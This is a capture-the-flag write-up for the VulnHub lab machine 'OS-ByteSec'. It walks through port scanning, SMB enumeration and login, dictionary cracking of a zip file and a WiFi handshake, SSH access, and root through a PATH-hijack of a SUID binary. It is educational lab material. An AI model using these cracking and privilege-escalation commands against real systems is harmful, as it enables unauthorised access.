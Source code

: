 ```yaml
---
published: true
title: Byte Sec
author: F3dai
image: 'https://i.imgur.com/Dsajsd2.png'
category: Writeup
---
```


Flag : 2 Flag first user And second root. Learning : exploit, SMB, Enumration, Stenography, Privilege Escalation. We recommend that you use VirtualBox and not VMware for this VM 

**URL:** [OS ByteSec](https://www.vulnhub.com/entry/hacknos-os-bytesec,393/)

**Difficulty:** Intermediate

**Author:** Rahul Gehlaut

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/S2hIAEd.png)

We can identify the machine with the IP 192.168.56.116, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.116</pre>

![nmap](https://imgur.com/9wpz9b8.png)

We have identified ports 80 139 445 2525 are open. Ports 138 and 2525 are worth noting as they could be smb. Read more about Samba shares [here](https://en.wikipedia.org/wiki/Samba_(software))

To start, port 80 is open so we will investigate this port with a browser.

![web page](https://imgur.com/Dsajsd2.png)

At first glance, the bottom of the web page has the following text:

<pre>####################GET#####smb##############free </pre>

This is also seen in the page source:

![source](https://imgur.com/SvBX5zC.png)

This gives us a pretty obvious hint that there is probably samba running. Let's perform some enumeration based on this information with the tool [enum4linux](https://tools.kali.org/information-gathering/enum4linux). This tool is for enumerating information from Windows and Samba systems.  

<pre>enum4linux 192.168.56.116 </pre>

![enum4linux](https://imgur.com/vYR1FxN.png)

Known Usernames = administrator, guest, krbtgt, domain admins, root, bin, none.

Let's try and log into SMB with smbclient. This tool launches an ftp-like client to access SMB/CIFS resources on servers - [computerhope](https://www.computerhope.com/unix/smbclien.htm). 

Execute the following command:

<pre>smbclient //192.168.56.116/smb -U smb -p</pre>

To break this command down, we are specifying the //host/smb with user -U smb and -p enables a printer service rather than as a normal filespace service. 

![smb](https://imgur.com/1bH2oPc.png)

We are logged in. There is a file named safe.zip and main.txt which we will transfer to our local system with "get".

<pre>ls
get safe.zip
get main.txt</pre>

There doesn't seem to be anything on main.txt, let's have a look at the archive:

<pre>unzip safe.zip</pre>

![zip](https://imgur.com/xSLOmLR.png)

The .zip file seems to be password protected. There is a tool we can use to try and crack the password by brute forcing.

[fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html) is a zip file password cracker. 

<pre>fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip</pre>

To break down this command, -D specifies a dictionary attack, -p specifies the rockyou.txt dictionary and -u specifies the file we want to crack. The command will essentially try to decompress the zip archive using the passwords in the wordlist and return the password when successful.

![cracked](https://imgur.com/MWKqIPq.png )

A password has been found:

<pre>PASSWORD FOUND!!!!: pw == hacker1</pre>

Unzipping the file using the password gives us a .cap file. A .cap file is a packet capture file which can be analysed with traffic capture software such as Wireshark. To read more about this, [Life Wire](https://www.lifewire.com/cap-file-2622694) have a pretty good article on this. Let's open up the file with Wireshark.

Looking at the .cap file, we see the protocol 802.11 being used.
This Wireshark website explains the protocol that is seen on this traffic capture: [Wireshark](https://wiki.wireshark.org/CaptureSetup/WLAN#WLAN_.28IEEE_802.11.29_capture_setup)

After some research, we can identify WLAN as IEEE 802.11. These could be packets captured via WiFi. When analysing Wifi traffic, can often find a 3-way handshake whenever someone joins the network. We can try and crack this .cap file for any passwords.

Let's use aircrack-ng, a tool which accesses WiFi network security. Run the following command:

<pre>aircrack-ng user.cap -w /usr/share/wordlists/rockyou.txt</pre>

![aircrack](https://imgur.com/OMpwwRS.png)

Aircrack has found a password:

<pre>KEY FOUND! [ snowflake ]</pre>

There is a username that can easily be seen in the packet capture:

<pre>blackjax</pre>

![user](https://imgur.com/WlZqeW6.png)

Now that we have a username and password, let's try logging in with SSH. If you remember, a different port was open for ssh. 

<pre>cat nmap | grep ssh</pre>

SSH on port 2525.

<pre>ssh blackjax@192.168.56.116 -p 2525</pre>

![ssh login](https://imgur.com/Pp7yswG.png)

### Privilege Escalation

Let's upgrade our shell with the following command:

<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![python](https://imgur.com/mT2v1uP.png)

There are a few different home directories for users sagar, smb and blackjax:

![home](https://imgur.com/QtPdLtT.png)

This next section will be focusing on exploiting Set User ID (SUID). This is a good article about this if you want to read more:

[Recipe for Root](https://recipeforroot.com/suid-binaries/)

And another website for some priv esc with a section on SUID:

[Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

The following command will identify any SUID enabled executables on the unix machine:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![find](https://imgur.com/xbvuq3E.png)

For reference, these are a list of binaries native to Linux, meaning we should not investigate any of these:

<pre>ping
ping6
passwd
sudo
chfn
apring
gpasswd
chsh
chfn
mount
sudo
su
umount
mount
newgrp
pppd</pre>

One of the binaries identified from the command:

<pre>/usr/bin/netscan</pre>

This is evidently not native so let's have a closer look. Run the binary with the following command:

<pre>/usr/bin/netscan</pre>

![netscan](https://imgur.com/Gnd59wt.png)

Let's exploit this with the following commands:

<pre>cd /tmp
echo "/bin/bash" > netstat
chmod 777 netstat
export PATH=/tmp:$PATH
/usr/bin/netscan</pre>

These commands essentially create a file called netstat in /tmp with correct permissions. The export command marks an environment variable to be exported to child-processes. Then the netscan binary is run again.

![exploit](https://imgur.com/6fCCYU2.png)

And we are root, with root flag:

![root](https://imgur.com/Sxi9AWQ.png)
